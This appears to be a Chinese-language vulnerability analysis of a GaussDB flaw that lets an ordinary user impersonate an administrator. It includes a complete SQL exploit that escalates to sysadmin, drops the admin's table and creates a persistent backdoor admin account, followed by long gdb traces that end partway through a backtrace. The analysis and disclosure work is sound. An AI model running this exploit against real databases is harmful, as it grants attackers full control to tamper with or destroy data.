


【GaussDB】（HWSA25-084897515）普通用户非法提权的漏洞分析
漏洞发现时间
2025年9月
漏洞表现
若数据库中存在A/B两个用户，只要将B用户的一个对象授权给了用户A，那么用户A在不知道B用户密码的情况下，可以通过执行特定的SQL，将自己伪造成B用户，并同时获取了B用户的所有权限。当B用户是系统管理员时，A用户也可以伪造成系统管理员并获取到系统管理员的所有权限。
一旦有满足前置条件的一个数据库用户泄露了密码，攻击者可利用该漏洞获取数据库的最高权限以执行任何破坏、篡改、勒索等操作。


漏洞影响范围
由于本人没有GaussDB所有版本的介质，根据我已有的几个版本测试情况来看，发现在此时（2025年9月）的所有503.1到506版本，均存在此漏洞。
gdb调试诊断
环境准备
#!/bin/bash
gsql -r -d postgres -p 8000 -c "
purge recyclebin;
drop user if exists user_admin1 cascade;
drop user if exists user_admin cascade;
drop user if exists user_noadmin cascade;
create user user_admin password 'Gaussdb@123' sysadmin;
create user user_noadmin password 'Gaussdb@123';
"
gsql -r -d postgres -p 8000 -U user_admin -W Gaussdb@123 -c "
create table t1(a int);
create table t5(a int);
create unique index i_t5 on t5( a);
insert into t5 values (1);
grant usage on schema user_admin to user_noadmin;
grant all on t5 to user_noadmin;
"
exit
查看创建的用户oid
gaussdb=# select oid,rolname from pg_authid where rolname in ('user_admin','user_noadmin');
oid | rolname
--------+-------------------------------
142993 | user_admin
142997 | user_noadmin
开启gdb ,添加断点
b build_index
b reindex_index
b miscinit.cpp:738
攻击
#!/bin/bash
gsql -r -d postgres -p 8000 -U user_noadmin -W Gaussdb@123 <<EOF
--当前用户为普通用户
select current_user;
--修改参数
set behavior_compat_options=plsql_rollback_keep_user;
--执行匿名块
begin
alter index user_admin.i_t5 unusable;
insert into user_admin.t5 values (1);
alter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback
exception when others then
raise notice '%',sqlerrm;
raise notice '%',current_user;
end;
/
--当前用户已被切换成管理员用户
select current_user;
--删除普通用户无权限的 t1表
drop table user_admin.t1;
--将此次连接的普通用户提升为管理员角色以便后续攻击
alter user user_noadmin sysadmin;
--创建其他管理员用户防止已知用户名密码被修改而无法登录
create user user_admin1 password 'Gaussdb@123' sysadmin;
\q
EOF
gdb
(gdb) b elog.cpp:238 if (elevel > 19)
dle SIGPIPE nostop
set pagi off
set print elements 300Breakpoint 1 at 0x55e1a13fab25: file /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/error/elog.cpp, line 238.
(gdb) handle SIGUSR1 nostop noprint
Signal Stop Print Pass to program Description
SIGUSR1 No No Yes User defined signal 1
(gdb) handle SIGUSR2 nostop noprint
Signal Stop Print Pass to program Description
SIGUSR2 No No Yes User defined signal 2
(gdb) handle SIGPIPE nostop
Signal Stop Print Pass to program Description
SIGPIPE No Yes Yes Broken pipe
(gdb) set pagi off
(gdb) set print elements 300
(gdb) b build_index
Breakpoint 2 at 0x55e1a0a50a20: file /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp, line 5779.
(gdb) b reindex_index
Breakpoint 3 at 0x55e1a0a5f230: file /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp, line 9833.
(gdb) b miscinit.cpp:738
Breakpoint 4 at 0x55e1a1441475: miscinit.cpp:738. (2 locations)
(gdb) c
Continuing.
[New LWP 93008]
[LWP 93008 exited]
[New LWP 93009]
[New LWP 93010]
[LWP 93010 exited]
[New LWP 93011]
[LWP 93011 exited]
[Switching to LWP 92748]
Thread 27 "TPLworker" hit Breakpoint 3, 0x000055e1a0a5f230 in reindex_index (index_id=<optimized out>, index_part_id=<optimized out>, skip_constraint_checks=<optimized out>, mem_info=<optimized out>, db_wide=<optimized out>, base_desc=<optimized out>, is_trunc_gtt=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp:9833
9833 /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp: No such file or directory.
(gdb) info locals
irel = 0x9bb170f457814daf
heap_relation = <optimized out>
heap_id = <optimized out>
save_userid = 0
current_user = <optimized out>
save_sec_context = 0
save_nestlevel = <optimized out>
index_lock_mode = 32760
heap_lock_mode = <optimized out>
index_info = <optimized out>
skipped_constraint = false
turbo_level = <optimized out>
lpi_parallel_method = <optimized out>
__func__ = "reindex_index"
(gdb) c
Continuing.
[New LWP 93016]
[New LWP 93017]
[LWP 93009 exited]
Thread 27 "TPLworker" hit Breakpoint 4, set_userid_and_sec_context (userid=142993, sec_context=2) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
738 /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp: No such file or directory.
(gdb) bt
#0 set_userid_and_sec_context (userid=142993, sec_context=2) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
#1 0x000055e1a0a5f329 in reindex_index (index_id=143007, index_part_id=0, skip_constraint_checks=false, mem_info=0x7ff8465704dc, db_wide=false, base_desc=0x0, is_trunc_gtt=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp:7071
#2 0x000055e1a1c2c4a3 in sqlcmd_reindex_index (stmt=0x7ff8465704c0, indexRelation=<optimized out>, partition_name=<optimized out>, mem_info=0x7ff8465704dc, concurrent=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/commands/indexcmds.cpp:4298
#3 0x000055e1a1fb94aa in sqlcmd_reindex_command (is_top_level=<optimized out>, stmt=0x7ff8465704c0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:3230
#4 sqlcmd_standard_process_utility (parse_tree=0x7ff8465704c0, query_string=0x7ff8478a7648 "alter index user_admin.i_t5 rebuild", params=0x0, is_top_level=<optimized out>, dest=0x7ff9ca547020, sent_to_remote=<optimized out>, completion_tag=0x7ff853ba50d0 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:9366
#5 0x00007ff9cebd6759 in gsaudit_ProcessUtility_hook (parsetree=0x7ff8465704c0, queryString=0x7ff8478a7648 "alter index user_admin.i_t5 rebuild", params=0x0, isTopLevel=<optimized out>, dest=0x7ff9ca547020, sentToRemote=<optimized out>, completionTag=0x7ff853ba50d0 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/security_plugin/security_policy_plugin.cpp:856
#6 0x000055e1a2529f52 in audit_process_utility (parsetree=0x7ff8465704c0, query_string=0x7ff8478a7648 "alter index user_admin.i_t5 rebuild", params=<optimized out>, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff853ba50d0 "", is_ctas=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/audit/security_auditfuncs.cpp:1512
#7 0x000055e1a1fc571d in sqlcmd_process_utility (parse_tree=0x7ff8465704c0, query_string=0x7ff8478a7648 "alter index user_admin.i_t5 rebuild", params=0x0, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff853ba50d0 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:1974
#8 0x000055e1a2159bbc in spi_execute_plan0 (plan=0x7ff846570050, param_list=0x0, snapshot=0x0, crosscheck_snapshot=0x0, read_only=false, fire_triggers=true, tcount=0, from_lock=false, dfx_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/spi/spi.cpp:2243
#9 0x000055e1a215aa53 in spi_execute_plan (plan=0x7ff846570050, param_list=0x0, snapshot=0x0, crosscheck_snapshot=0x0, read_only=false, fire_triggers=true, tcount=0, from_lock=false, dfx_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/spi/spi.cpp:2535
#10 0x000055e1a215c07a in SPI_execute_plan_with_paramlist (plan=0x7ff846570050, params=0x0, read_only=<optimized out>, tcount=0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/spi/spi.cpp:502
#11 0x000055e1a161af22 in gsplsql_exec_stmt_execsql (estate=0x7ff847886820, stmt=0x7ff84aa7ddc0, dfx_state=0x7ff844a51550, is_open_satetement=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_sql.cpp:972
#12 0x000055e1a1602144 in gsplsql_exec_stmt (estate=0x7ff847886820, stmt=0x7ff84aa7ddc0, dfx_state=0x7ff844a51550) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:712
#13 0x000055e1a1602682 in gsplsql_exec_stmts (estate=0x7ff847886820, stmts=0x7ff84aa7d568, dfx_state=0x7ff847887120) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:856
#14 0x000055e1a1600ec4 in gsplsql_exec_stmt_block (estate=0x7ff847886820, block=0x7ff84aa7ead8, dfx_state=0x7ff847887120) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:295
#15 0x000055e1a1602452 in gsplsql_exec_stmt (estate=0x7ff847886820, stmt=0x7ff84aa7ead8, dfx_state=0x7ff847887120) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:648
#16 0x000055e1a1602682 in gsplsql_exec_stmts (estate=0x7ff847886820, stmts=0x7ff84aa7c708, dfx_state=0x7ff847886d00) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:856
#17 0x000055e1a1601963 in gsplsql_exec_stmt_block (estate=0x7ff847886820, block=0x7ff84aa7ee10, dfx_state=0x7ff847886d00) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:431
#18 0x000055e1a37daec5 in gsplsql_exec_function (func=0x7ff847876170, fcinfo=0x7ff853ba6230, dynexec_anonymous_block=false, func_runtime_state=0x0, isDstoreAutonomous=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/plpgsql/src/pl_exec.cpp:698
#19 0x000055e1a37ecbea in plpgsql_inline_handler (fcinfo=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/plpgsql/src/pl_handler.cpp:1124
#20 0x000055e1a142d9c1 in OidFunctionCall2Coll (function_id=<optimized out>, collation=0, arg1=140704310149200, arg2=0, is_null=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/fmgr/fmgr.cpp:2355
#21 0x000055e1a1bdfb39 in sqlcmd_execute_do_stmt (stmt=0x7ff8466a8dc0, atomic=<optimized out>, is_pkg_anonymous_block=249) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/commands/functioncmds.cpp:4242
#22 0x000055e1a1fb927e in sqlcmd_standard_process_utility (parse_tree=0x7ff8466a8dc0, query_string=0x7ff84ab16050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, is_top_level=true, dest=0x7ff84ab16370, sent_to_remote=<optimized out>, completion_tag=0x7ff853baa260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:7283
#23 0x00007ff9cebd6759 in gsaudit_ProcessUtility_hook (parsetree=0x7ff8466a8dc0, queryString=0x7ff84ab16050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, isTopLevel=<optimized out>, dest=0x7ff84ab16370, sentToRemote=<optimized out>, completionTag=0x7ff853baa260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/security_plugin/security_policy_plugin.cpp:856
#24 0x000055e1a2529f52 in audit_process_utility (parsetree=0x7ff8466a8dc0, query_string=0x7ff84ab16050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=<optimized out>, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff853baa260 "",
is_ctas=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/audit/security_auditfuncs.cpp:1512
#25 0x000055e1a1fc571d in sqlcmd_process_utility (parse_tree=0x7ff8466a8dc0, query_string=0x7ff84ab16050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff853baa260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:1974
#26 0x000055e1a1fa683f in PortalRunUtility (portal=0x7ff795e02050, utilityStmt=0x7ff8466a8dc0, isTopLevel=true, dest=0x7ff84ab16370, completionTag=0x7ff853baa260 "") at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:2140
#27 0x000055e1a1fa80be in PortalRunMulti (portal=0x7ff795e02050, isTopLevel=true, dest=0x7ff84ab16370, altdest=0x7ff84ab16370, completionTag=0x7ff853baa260 "", snapshot=0x0, bii_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:2326
#28 0x000055e1a1fac2dc in PortalRun (portal=0x7ff795e02050, count=9223372036854775807, isTopLevel=true, dest=0x7ff84ab16370, altdest=0x7ff84ab16370, completionTag=0x7ff853baa260 "", snapshot=0x0, bii_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:1501
#29 0x000055e1a1f92276 in exec_simple_query (query_string=<optimized out>, msg=0x7ff853baa530, messageType=QUERY_MESSAGE) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:3513
#30 0x000055e1a1f9ee38 in gs_process_command (firstchar=<optimized out>, input_message=0x7ff853baa530, send_ready_for_query=0x7ff853baa526) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:11743
#31 0x000055e1a1fa49c0 in PostgresMain (argc=<optimized out>, argv=0x7ff84adf5b20, dbname=<optimized out>, username=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:11313
#32 0x000055e1a1f282df in backend_run (port=0x7ff853baa890) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:12482
#33 0x000055e1a1f671b0 in gauss_db_worker_thread_main<(knl_thread_role)2> (arg=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:19086
#34 0x000055e1a1f2839a in internal_thread_func (args=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:20196
#35 0x00007ff9cefa2f1b in ?? () from /usr/lib64/libpthread.so.0
#36 0x00007ff9ceeda320 in clone () from /usr/lib64/libc.so.6
(gdb) f 1
#1 0x000055e1a0a5f329 in reindex_index (index_id=143007, index_part_id=0, skip_constraint_checks=false, mem_info=0x7ff8465704dc, db_wide=false, base_desc=0x0, is_trunc_gtt=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp:7071
7071 /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp: No such file or directory.
(gdb) info locals
irel = 0x0
heap_relation = 0x7ff84785d050
heap_id = 143004
save_userid = 142997
current_user = 142997
save_sec_context = 0
save_nestlevel = <optimized out>
index_lock_mode = 8
heap_lock_mode = <optimized out>
index_info = 0x0
skipped_constraint = false
turbo_level = 0 '\000'
lpi_parallel_method = <optimized out>
__func__ = "reindex_index"
(gdb) s
737 /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp: No such file or directory.
(gdb) s
[New LWP 93038]
[New LWP 93039]
738 in /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp
(gdb) s
739 in /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp
(gdb) s
740 in /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp
(gdb) s
[New LWP 93045]
reindex_index (index_id=143007, index_part_id=0, skip_constraint_checks=false, mem_info=0x7ff8465704dc, db_wide=false, base_desc=0x0, is_trunc_gtt=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp:7073
7073 /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp: No such file or directory.
(gdb) info locals
irel = 0x0
heap_relation = 0x7ff84785d050
heap_id = 143004
save_userid = 142997
current_user = 142997
save_sec_context = 0
save_nestlevel = <optimized out>
index_lock_mode = 8
heap_lock_mode = <optimized out>
index_info = 0x0
skipped_constraint = false
turbo_level = 0 '\000'
lpi_parallel_method = <optimized out>
__func__ = "reindex_index"
(gdb) c
Continuing.
Thread 27 "TPLworker" hit Breakpoint 2, 0x000055e1a0a50a20 in build_index (heap_relation=<optimized out>, heap_partition=<optimized out>, index_relation=<optimized out>, index_partition=<optimized out>, index_info=<optimized out>, is_primary=<optimized out>, isreindex=true, partition_type=INDEX_CREATE_NONE_PARTITION, parallel=true, is_trunc_gtt=false, snapshot=0x0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp:5779
5779 in /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp
(gdb) info locals
indextuples = <optimized out>
heaptuples = <optimized out>
save_userid = 0
current_user = <optimized out>
save_sec_context = 0
save_nestlevel = <optimized out>
heap_part_rel = 0x0
index_part_rel = 0x0
target_heap_relation = <optimized out>
target_index_relation = <optimized out>
hasbucket = <optimized out>
__func__ = "build_index"
stats = <optimized out>
dummyStats = {heap_tuples = 0, index_tuples = 0, all_part_tuples = 0x0}
need_check_xmin = <optimized out>
cudesc_idx_oid = <optimized out>
(gdb) watch save_userid
Hardware watchpoint 5: save_userid
(gdb) c
Continuing.
[Switching to LWP 92797]
Thread 27 "TPLworker" hit Hardware watchpoint 5: save_userid
Old value = 0
New value = 142993
get_userid_and_sec_context (userid=userid@entry=0x7ff853ba17e8, sec_context=sec_context@entry=0x7ff853ba17ec) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:733
733 /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp: No such file or directory.
(gdb) bt
#0 get_userid_and_sec_context (userid=userid@entry=0x7ff853ba17e8, sec_context=sec_context@entry=0x7ff853ba17ec) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:733
#1 0x000055e1a0a50b9f in build_index (heap_relation=0x7ff84785d050, heap_partition=0x0, index_relation=0x7ff84785c290, index_partition=0x0, index_info=0x7ff846490580, is_primary=false, isreindex=true, partition_type=INDEX_CREATE_NONE_PARTITION, parallel=true, is_trunc_gtt=false, snapshot=0x0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp:3861
#2 0x000055e1a0a5f5e5 in reindex_index (index_id=143007, index_part_id=0, skip_constraint_checks=false, mem_info=0x7ff8465704dc, db_wide=false, base_desc=0x0, is_trunc_gtt=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp:7233
#3 0x000055e1a1c2c4a3 in sqlcmd_reindex_index (stmt=0x7ff8465704c0, indexRelation=<optimized out>, partition_name=<optimized out>, mem_info=0x7ff8465704dc, concurrent=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/commands/indexcmds.cpp:4298
#4 0x000055e1a1fb94aa in sqlcmd_reindex_command (is_top_level=<optimized out>, stmt=0x7ff8465704c0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:3230
#5 sqlcmd_standard_process_utility (parse_tree=0x7ff8465704c0, query_string=0x7ff8478a7648 "alter index user_admin.i_t5 rebuild", params=0x0, is_top_level=<optimized out>, dest=0x7ff9ca547020, sent_to_remote=<optimized out>, completion_tag=0x7ff853ba50d0 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:9366
#6 0x00007ff9cebd6759 in gsaudit_ProcessUtility_hook (parsetree=0x7ff8465704c0, queryString=0x7ff8478a7648 "alter index user_admin.i_t5 rebuild", params=0x0, isTopLevel=<optimized out>, dest=0x7ff9ca547020, sentToRemote=<optimized out>, completionTag=0x7ff853ba50d0 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/security_plugin/security_policy_plugin.cpp:856
#7 0x000055e1a2529f52 in audit_process_utility (parsetree=0x7ff8465704c0, query_string=0x7ff8478a7648 "alter index user_admin.i_t5 rebuild", params=<optimized out>, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff853ba50d0 "", is_ctas=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/audit/security_auditfuncs.cpp:1512
#8 0x000055e1a1fc571d in sqlcmd_process_utility (parse_tree=0x7ff8465704c0, query_string=0x7ff8478a7648 "alter index user_admin.i_t5 rebuild", params=0x0, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff853ba50d0 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:1974
#9 0x000055e1a2159bbc in spi_execute_plan0 (plan=0x7ff846570050, param_list=0x0, snapshot=0x0, crosscheck_snapshot=0x0, read_only=false, fire_triggers=true, tcount=0, from_lock=false, dfx_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/spi/spi.cpp:2243
#10 0x000055e1a215aa53 in spi_execute_plan (plan=0x7ff846570050, param_list=0x0, snapshot=0x0, crosscheck_snapshot=0x0, read_only=false, fire_triggers=true, tcount=0, from_lock=false, dfx_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/spi/spi.cpp:2535
#11 0x000055e1a215c07a in SPI_execute_plan_with_paramlist (plan=0x7ff846570050, params=0x0, read_only=<optimized out>, tcount=0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/spi/spi.cpp:502
#12 0x000055e1a161af22 in gsplsql_exec_stmt_execsql (estate=0x7ff847886820, stmt=0x7ff84aa7ddc0, dfx_state=0x7ff844a51550, is_open_satetement=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_sql.cpp:972
#13 0x000055e1a1602144 in gsplsql_exec_stmt (estate=0x7ff847886820, stmt=0x7ff84aa7ddc0, dfx_state=0x7ff844a51550) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:712
#14 0x000055e1a1602682 in gsplsql_exec_stmts (estate=0x7ff847886820, stmts=0x7ff84aa7d568, dfx_state=0x7ff847887120) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:856
#15 0x000055e1a1600ec4 in gsplsql_exec_stmt_block (estate=0x7ff847886820, block=0x7ff84aa7ead8, dfx_state=0x7ff847887120) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:295
#16 0x000055e1a1602452 in gsplsql_exec_stmt (estate=0x7ff847886820, stmt=0x7ff84aa7ead8, dfx_state=0x7ff847887120) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:648
#17 0x000055e1a1602682 in gsplsql_exec_stmts (estate=0x7ff847886820, stmts=0x7ff84aa7c708, dfx_state=0x7ff847886d00) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:856
#18 0x000055e1a1601963 in gsplsql_exec_stmt_block (estate=0x7ff847886820, block=0x7ff84aa7ee10, dfx_state=0x7ff847886d00) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:431
#19 0x000055e1a37daec5 in gsplsql_exec_function (func=0x7ff847876170, fcinfo=0x7ff853ba6230, dynexec_anonymous_block=false, func_runtime_state=0x0, isDstoreAutonomous=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/plpgsql/src/pl_exec.cpp:698
#20 0x000055e1a37ecbea in plpgsql_inline_handler (fcinfo=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/plpgsql/src/pl_handler.cpp:1124
#21 0x000055e1a142d9c1 in OidFunctionCall2Coll (function_id=<optimized out>, collation=0, arg1=140704310149200, arg2=0, is_null=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/fmgr/fmgr.cpp:2355
#22 0x000055e1a1bdfb39 in sqlcmd_execute_do_stmt (stmt=0x7ff8466a8dc0, atomic=<optimized out>, is_pkg_anonymous_block=249) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/commands/functioncmds.cpp:4242
